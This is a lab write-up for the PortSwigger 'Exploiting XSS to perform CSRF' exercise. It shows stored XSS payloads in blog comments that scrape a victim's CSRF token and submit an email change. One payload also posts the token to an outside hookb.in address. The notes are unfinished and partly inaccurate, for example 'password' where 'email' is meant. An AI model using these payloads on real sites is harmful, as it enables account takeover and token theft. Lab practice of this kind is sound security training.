







# Exploiting XSS to perform CSRF

## Description

Link : https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

>


## Writeup

We know that the vulnerability is in the blog comments.  

First thing we want to do is find the XSS and trigger it

We log in as the **wiener** user, as suggested in the description. 

The following page is served to us:

>

The final goal of the challenge is to change the email address of another user. So, what we can do now is to intercept our `update email` request so that we know how the update mechanism works.

We use Burp for this purpose. We update the email to luca@normal-user.net and this is the HTTP request we intercepted:

>


By changing the value of the `email` POST variable we can change our own email. Moreover we can see that the page has a CSRF token.

TODO: What does this token do?


looking for the XSS we can try to trivial `<script>` tag in the comment and name section:

>

And we can identify the XSS in the _comments_ input field

>


We can now use it to perform a CSRF attack and change the password of the user that will visit the page.

Since the mail is changed with a POST request, we need to trick the user to perform a POST request too. We can do it by creating a form


```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

So we try this 

>

But it doesn't trigger because it says that the `csrt` is missing. However given that we can execute javascript, we can crape the page to dynamically get the csrt of the victim and submit it together with the email. It can be easily done by submitting a POST request with javascript to the change-email endpoint:


```
document.getElementsByName('csrf')[0].value
```

By putting all together


```
</p>
      <script>
      function injectCSRF() {
      document.getElementById('exploit').setAttribute('value', 'hello');
      }
    </script>
    
    <form onsubmit="injectCSRF()" action="https://ac5e1f251f58e66e80dd3bdd0090000f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@admin.net" />
      <input id="exploit" type="hidden" name="csrf" value="scrape token here" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
<p>
```

We try

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://ac5e1f251f58e66e80dd3bdd0090000f.web-security-academy.net/my-account/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    email: 'admin@gmail.com',
    csrf: 'hello'
}));
</script>
```

The POST data we generate in this way is in JSON format 

>

However the format of the POST data is not as the server expects and the `csrf` token is not detected.


We need to 

new URLSearchParams({
    'email': 'admin@gmail.com',
    'csrf': 'hello'
    })


```
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://ac5e1f251f58e66e80dd3bdd0090000f.web-security-academy.net/my-account/change-email', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send(new URLSearchParams({
    'email': 'admin@gmail.com',
    'csrf': document.getElementsByName('csrf')[0].value
    })
    );
</script>
```

But this doesn't work. The `crsf` token is not scraped as `document.getElementsByName('csrf')[0].value` returns null. 
The function returns null because the csrf token gets assigned to the user when he visites the `my-account` page. So, we first need to issue a request to `/my-account` in order to scrape the csrf token from the response and being able to issue the `change email` request.


```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() { 
        var token = this.response.getElementsByName('csrf')[0].value;
	xhr.open('POST', '/my-account/change-email', true);
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.send(new URLSearchParams({
	    'email': 'admin@gmail.com',
	    'csrf': token
	    })
	    );
};
xhr.open('GET', '/my-account', true);
xhr.responseType = "document";
xhr.send();

</script>
```
We use `this` to refer to `xhr` becasue, when `this` is used in the context of a DOM event handler, it is set to the element on which the listener is placed (`xhr` in this case).

It works.


```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() { 
        var token = this.response.getElementsByName('csrf')[0].value;
	xhr.open('POST', 'https://hookb.in/lJJ7LdeV67urXXZWOOOQ/ciao', true);
	xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
	xhr.send(new URLSearchParams({
	    'email': 'admin@gmail.com',
	    'csrf': token
	    })
	    );
};
xhr.open('GET', 'https://hookb.in/lJJ7LdeV67urXXZWOOOQ', true);
xhr.responseType = "document";
xhr.send();

</script>
```


